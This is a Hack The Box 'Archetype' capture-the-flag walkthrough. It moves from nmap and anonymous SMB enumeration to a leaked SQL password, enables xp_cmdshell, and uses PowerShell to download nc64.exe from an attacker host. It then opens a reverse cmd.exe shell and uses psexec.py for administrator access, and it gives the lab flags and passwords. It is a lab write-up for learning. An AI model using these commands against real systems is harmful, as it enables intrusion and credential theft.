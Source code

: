 # Archetype (Windows)

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. Which TCP port is hosting a database server?

```sh
$ nmap -A -T4 10.129.95.187
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 10:22 CET
Nmap scan report for 10.129.95.187
Host is up (0.086s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
135/tcp  open  msrpc       Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp  open              Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s    Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-03T09:21:36
|_Not valid after:  2054-03-03T09:21:36
|_ssl-date: 2024-03-03T09:22:42+00:00; 0s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 4h00m01s, median: 0s
| smb2-time: 
|   date: 2024-03-03T09:22:33
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-03-03T01:22:34-08:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.76 seconds
```

> 1433

#### 2. What is the name of the non-Administrative share available over SMB?

`-N`: No password
`-L`: This option allows you to look at what services are available on a server

```sh
$ smbclient -L 10.129.95.187 -N          
Can't load /usr/local/etc/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

> backups

#### 3. What is the password identified in the file on the SMB share?

```sh
$ smbclient \\\\10.129.95.187\\backups -N
Can't load /usr/local/etc/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

		5056511 blocks of size 4096. 2609625 blocks available
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (2,3 KiloBytes/sec) (average 2,3 KiloBytes/sec)
```

```sh
$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

> M3g4c0rp123

#### 4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

> mssqlclient.py

#### 5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

```sh
$ mssqlclient.py sql_svc@10.129.95.187 -windows-auth          
Impacket v0.11.0 - Copyright 2023 Fortra

Password: M3g4c0rp123
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)> help

	...
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
	... 
```	

> xp_cmdshell

#### 6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?

> winpeas

#### 7. What file contains the administrator's password?

[MSSQL Injection Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet):

![cheat](./cheat.jpg)

Next, we need to execute following commands to activate `xp_cmdshell`:

```sh
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
``` 

And then we can run system commands:

```sh
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
output              
-----------------   
archetype\sql_svc   

NULL 
```

Next e will upload the [nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) binary to the target machine and execute an interactive `cmd.exe` process on our listening port:

```sh
$ python3 -m http.server 8080
```

In other window:

```sh
$ nc -l 9001
```

Then from our MSSQL shell download the file:

```sh
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.15:8080/nc64.exe -outfile nc64.exe"
```

Next we need to get the reverse shell:

```sh
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.15 9001"
```

And we have it: 

```sh
$ nc -l 9001
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\sql_svc\Downloads>
```

Next we need to escalate our priveleges, for that we will use [winpeas](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe):

```powershell
C:\Users\sql_svc\Downloads>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Users\sql_svc\Downloads>wget http://10.10.16.15:8080/winPEASx64.exe -outfile winPEASx64.exe
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

From the output:

```powershell
...
Analyzing Windows Files Files (limit 70)
    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    C:\Users\Default\NTUSER.DAT
    C:\Users\sql_svc\NTUSER.DAT
...
```

Read the file:

```sh
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

> ConsoleHost_history.txt

#### Submit user flag

```powershell
PS C:\Users\sql_svc\Downloads> type C:\Users\sql_svc\Desktop\user.txt
type C:\Users\sql_svc\Desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3
```

#### Submit root flag

Run `psexec.py` with `Administrator's` credentials:

```sh
$ psexec.py administrator@10.129.95.187 
Impacket v0.11.0 - Copyright 2023 Fortra

Password: MEGACORP_4dm1n!!
[*] Requesting shares on 10.129.95.187.....
[*] Found writable share ADMIN$
[*] Uploading file paaTtIVe.exe
[*] Opening SVCManager on 10.129.95.187.....
[*] Creating service OuNf on 10.129.95.187.....
[*] Starting service OuNf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```

## Final Flags

> `user`: 3e7b102e78218e935bf3f4951fec21a3
> `root`: b91ccec3305e98240082d4474b848528

*Created by [bu19akov](https://github.com/bu19akov)*